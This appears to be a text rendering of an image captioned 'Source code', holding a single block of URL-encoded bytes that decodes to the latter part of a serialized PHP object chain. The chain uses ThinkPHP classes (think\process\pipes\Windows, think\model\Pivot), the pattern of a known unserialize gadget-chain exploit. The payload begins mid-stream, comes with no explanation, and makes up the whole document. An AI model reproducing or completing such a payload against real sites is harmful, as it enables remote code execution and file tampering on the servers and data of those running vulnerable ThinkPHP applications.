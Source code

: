 ```http
%20%45%58%49%53%54%53%22%3b%73%3a%34%3a%22%6e%75%6c%6c%22%3b%73%3a%34%3a%22%4e%55%4c%4c%22%3b%73%3a%37%3a%22%6e%6f%74%6e%75%6c%6c%22%3b%73%3a%38%3a%22%4e%4f%54%20%4e%55%4c%4c%22%3b%73%3a%38%3a%22%6e%6f%74%20%6e%75%6c%6c%22%3b%73%3a%38%3a%22%4e%4f%54%20%4e%55%4c%4c%22%3b%73%3a%36%3a%22%3e%20%74%69%6d%65%22%3b%73%3a%36%3a%22%3e%20%54%49%4d%45%22%3b%73%3a%36%3a%22%3c%20%74%69%6d%65%22%3b%73%3a%36%3a%22%3c%20%54%49%4d%45%22%3b%73%3a%37%3a%22%3e%3d%20%74%69%6d%65%22%3b%73%3a%37%3a%22%3e%3d%20%54%49%4d%45%22%3b%73%3a%37%3a%22%3c%3d%20%74%69%6d%65%22%3b%73%3a%37%3a%22%3c%3d%20%54%49%4d%45%22%3b%73%3a%31%32%3a%22%62%65%74%77%65%65%6e%20%74%69%6d%65%22%3b%73%3a%31%32%3a%22%42%45%54%57%45%45%4e%20%54%49%4d%45%22%3b%73%3a%31%36%3a%22%6e%6f%74%20%62%65%74%77%65%65%6e%20%74%69%6d%65%22%3b%73%3a%31%36%3a%22%4e%4f%54%20%42%45%54%57%45%45%4e%20%54%49%4d%45%22%3b%73%3a%31%35%3a%22%6e%6f%74%62%65%74%77%65%65%6e%20%74%69%6d%65%22%3b%73%3a%31%36%3a%22%4e%4f%54%20%42%45%54%57%45%45%4e%20%54%49%4d%45%22%3b%7d%73%3a%31%32%3a%22%00%2a%00%73%65%6c%65%63%74%53%71%6c%22%3b%73%3a%31%30%38%3a%22%53%45%4c%45%43%54%25%44%49%53%54%49%4e%43%54%25%20%25%46%49%45%4c%44%25%20%46%52%4f%4d%20%25%54%41%42%4c%45%25%25%46%4f%52%43%45%25%25%55%4e%49%4f%4e%25%25%4a%4f%49%4e%25%25%57%48%45%52%45%25%25%47%52%4f%55%50%25%25%48%41%56%49%4e%47%25%25%4f%52%44%45%52%25%25%4c%49%4d%49%54%25%25%4c%4f%43%4b%25%25%43%4f%4d%4d%45%4e%54%25%22%3b%73%3a%31%32%3a%22%00%2a%00%69%6e%73%65%72%74%53%71%6c%22%3b%73%3a%35%37%3a%22%25%49%4e%53%45%52%54%25%20%49%4e%54%4f%20%25%54%41%42%4c%45%25%20%28%25%46%49%45%4c%44%25%29%20%56%41%4c%55%45%53%20%28%25%44%41%54%41%25%29%20%25%43%4f%4d%4d%45%4e%54%25%22%3b%73%3a%31%32%3a%22%00%2a%00%64%65%6c%65%74%65%53%71%6c%22%3b%73%3a%37%33%3a%22%44%45%4c%45%54%45%20%46%52%4f%4d%20%25%54%41%42%4c%45%25%20%25%55%53%49%4e%47%25%20%25%4a%4f%49%4e%25%20%25%57%48%45%52%45%25%20%25%4f%52%44%45%52%25%25%4c%49%4d%49%54%25%20%25%4c%4f%43%4b%25%25%43%4f%4d%4d%45%4e%54%25%22%3b%7d%73%3a%38%3a%22%00%2a%00%6d%6f%64%65%6c%22%3b%73%3a%31%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%50%69%76%6f%74%22%3b%73%3a%38%3a%22%00%2a%00%74%61%62%6c%65%22%3b%73%3a%30%3a%22%22%3b%73%3a%37%3a%22%00%2a%00%6e%61%6d%65%22%3b%73%3a%35%3a%22%50%69%76%6f%74%22%3b%73%3a%35%3a%22%00%2a%00%70%6b%22%3b%4e%3b%73%3a%39%3a%22%00%2a%00%70%72%65%66%69%78%22%3b%73%3a%30%3a%22%22%3b%73%3a%31%30%3a%22%00%2a%00%6f%70%74%69%6f%6e%73%22%3b%61%3a%30%3a%7b%7d%73%3a%37%3a%22%00%2a%00%62%69%6e%64%22%3b%61%3a%30%3a%7b%7d%7d%73%3a%31%33%3a%22%00%2a%00%66%6f%72%65%69%67%6e%4b%65%79%22%3b%69%3a%33%3b%73%3a%31%31%3a%22%00%2a%00%6c%6f%63%61%6c%4b%65%79%22%3b%69%3a%34%3b%73%3a%31%32%3a%22%00%2a%00%62%61%73%65%51%75%65%72%79%22%3b%4e%3b%7d%73%3a%31%31%3a%22%00%2a%00%76%61%6c%69%64%61%74%65%22%3b%4e%3b%73%3a%35%3a%22%00%2a%00%70%6b%22%3b%4e%3b%73%3a%38%3a%22%00%2a%00%66%69%65%6c%64%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%65%78%63%65%70%74%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%64%69%73%75%73%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%72%65%61%64%6f%6e%6c%79%22%3b%61%3a%30%3a%7b%7d%73%3a%31%30%3a%22%00%2a%00%76%69%73%69%62%6c%65%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%68%69%64%64%65%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%61%70%70%65%6e%64%22%3b%61%3a%31%3a%7b%73%3a%31%3a%22%61%22%3b%73%3a%38%3a%22%67%65%74%45%72%72%6f%72%22%3b%7d%73%3a%37%3a%22%00%2a%00%64%61%74%61%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%6f%72%69%67%69%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%72%65%6c%61%74%69%6f%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%37%3a%22%00%2a%00%61%75%74%6f%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%69%6e%73%65%72%74%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%75%70%64%61%74%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%33%3a%22%00%2a%00%63%72%65%61%74%65%54%69%6d%65%22%3b%73%3a%31%31%3a%22%63%72%65%61%74%65%5f%74%69%6d%65%22%3b%73%3a%31%33%3a%22%00%2a%00%75%70%64%61%74%65%54%69%6d%65%22%3b%73%3a%31%31%3a%22%75%70%64%61%74%65%5f%74%69%6d%65%22%3b%73%3a%31%33%3a%22%00%2a%00%64%61%74%65%46%6f%72%6d%61%74%22%3b%73%3a%31%31%3a%22%59%2d%6d%2d%64%20%48%3a%69%3a%73%22%3b%73%3a%37%3a%22%00%2a%00%74%79%70%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%69%73%55%70%64%61%74%65%22%3b%62%3a%30%3b%73%3a%38%3a%22%00%2a%00%66%6f%72%63%65%22%3b%62%3a%30%3b%73%3a%31%34%3a%22%00%2a%00%75%70%64%61%74%65%57%68%65%72%65%22%3b%4e%3b%73%3a%31%36%3a%22%00%2a%00%66%61%69%6c%45%78%63%65%70%74%69%6f%6e%22%3b%62%3a%30%3b%73%3a%31%37%3a%22%00%2a%00%75%73%65%47%6c%6f%62%61%6c%53%63%6f%70%65%22%3b%62%3a%31%3b%73%3a%31%36%3a%22%00%2a%00%62%61%74%63%68%56%61%6c%69%64%61%74%65%22%3b%62%3a%30%3b%73%3a%31%36%3a%22%00%2a%00%72%65%73%75%6c%74%53%65%74%54%79%70%65%22%3b%73%3a%35%3a%22%61%72%72%61%79%22%3b%73%3a%31%36%3a%22%00%2a%00%72%65%6c%61%74%69%6f%6e%57%72%69%74%65%22%3b%4e%3b%7d%7d%73%3a%34%30%3a%22%00%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%57%69%6e%64%6f%77%73%00%66%69%6c%65%48%61%6e%64%6c%65%73%22%3b%61%3a%30%3a%7b%7d%73%3a%33%38%3a%22%00%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%57%69%6e%64%6f%77%73%00%72%65%61%64%42%79%74%65%73%22%3b%61%3a%32%3a%7b%69%3a%31%3b%69%3a%30%3b%69%3a%32%3b%69%3a%30%3b%7d%73%3a%34%32%3a%22%00%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%57%69%6e%64%6f%77%73%00%64%69%73%61%62%6c%65%4f%75%74%70%75%74%22%3b%62%3a%31%3b%73%3a%35%3a%22%70%69%70%65%73%22%3b%61%3a%30%3a%7b%7d%73%3a%31%34%3a%22%00%2a%00%69%6e%70%75%74%42%75%66%66%65%72%22%3b%69%3a%30%3b%73%3a%38%3a%22%00%2a%00%69%6e%70%75%74%22%3b%4e%3b%73%3a%33%34%3a%22%00%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%50%69%70%65%73%00%62%6c%6f%63%6b%65%64%22%3b%62%3a%31%3b%7d 
```
